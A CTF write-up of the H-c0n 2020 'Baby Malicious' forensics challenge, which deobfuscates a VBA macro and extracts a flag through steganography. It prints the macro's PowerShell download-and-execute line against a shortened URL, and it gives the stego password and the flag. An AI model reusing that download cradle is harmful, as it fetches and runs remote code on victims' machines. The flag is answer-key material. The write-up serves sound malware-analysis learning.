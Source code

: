 # Forensics
## Baby Malicious

![Screenshot](https://raw.githubusercontent.com/Gh05t1nTh3SSH/Write-ups/master/CTF/H-c0n%202020/Images/Baby%20Malicious/title.png)

I never worked before or heard about **.vba** files, so I started checking the type and format

![Screenshot](https://raw.githubusercontent.com/Gh05t1nTh3SSH/Write-ups/master/CTF/H-c0n%202020/Images/Baby%20Malicious/file.png)

As I saw that is an ASCII text, I decided to open the file with **cat**

![Screenshot](https://raw.githubusercontent.com/Gh05t1nTh3SSH/Write-ups/master/CTF/H-c0n%202020/Images/Baby%20Malicious/cat.png)

The first impresion was that the text was encrypted, so I searched about [Obfuscation](https://en.wikipedia.org/wiki/Obfuscation_(software)) and I found something perfect for this ocasion.

A tool called [ViperMonkey](https://github.com/decalage2/ViperMonkey).

ViperMonkey is a VBA Emulation engine written in Python, designed to analyze and deobfuscate malicious VBA Macros contained in Microsoft Office files (Word, Excel, PowerPoint, Publisher, etc).

After using the tool I saw the following:

![Screenshot](https://raw.githubusercontent.com/Gh05t1nTh3SSH/Write-ups/master/CTF/H-c0n%202020/Images/Baby%20Malicious/vmonkey.png)

There are 3 interesting function calls:

1. | CreateObject      | ['WScript.Shell']         |
2. | Run               | ["powershell.exe -NoLogogoiex ((New-Object Net.WebClient).D0wnloadString('https://bit.ly/2NgCC0O'))",0]
3. | Run               | ly/2NgCC0O'))             |

The next step was visit the url: *https://bit.ly/2NgCC0O*

![Screenshot](https://raw.githubusercontent.com/Gh05t1nTh3SSH/Write-ups/master/CTF/H-c0n%202020/Images/Baby%20Malicious/dios.png)

I thought that this is only the first part of the challenge and some stego was involved, so I took a look at the next parameter of the macro.

![Screenshot](https://raw.githubusercontent.com/Gh05t1nTh3SSH/Write-ups/master/CTF/H-c0n%202020/Images/Baby%20Malicious/bps.png)

[BPStegano](https://github.com/TapanSoni/BPStegano) is a steganography tool created by students at Rowan University for their graduate cryptography class. 

Once we use the tool with the image found giving **SALCHICHON** as password, we get the flag

![Screenshot](https://raw.githubusercontent.com/Gh05t1nTh3SSH/Write-ups/master/CTF/H-c0n%202020/Images/Baby%20Malicious/decode.png)

## Flag

H-c0n{5619b327cc5ecce85a7fc99a14a6c5c5}

![Screenshot](https://raw.githubusercontent.com/Gh05t1nTh3SSH/Write-ups/master/CTF/H-c0n%202020/Images/Baby%20Malicious/complete.png)
